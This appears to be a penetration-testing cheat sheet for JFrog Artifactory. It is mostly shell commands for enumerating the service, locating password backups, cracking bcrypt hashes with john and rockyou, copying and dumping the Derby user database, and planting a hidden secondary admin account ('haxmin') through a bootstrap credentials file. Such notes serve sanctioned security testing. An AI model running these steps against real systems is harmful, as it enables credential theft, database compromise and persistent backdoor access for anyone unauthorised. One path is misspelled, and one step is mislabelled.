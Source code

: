 ```yaml
---
description: binary repository manager
---
```


# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
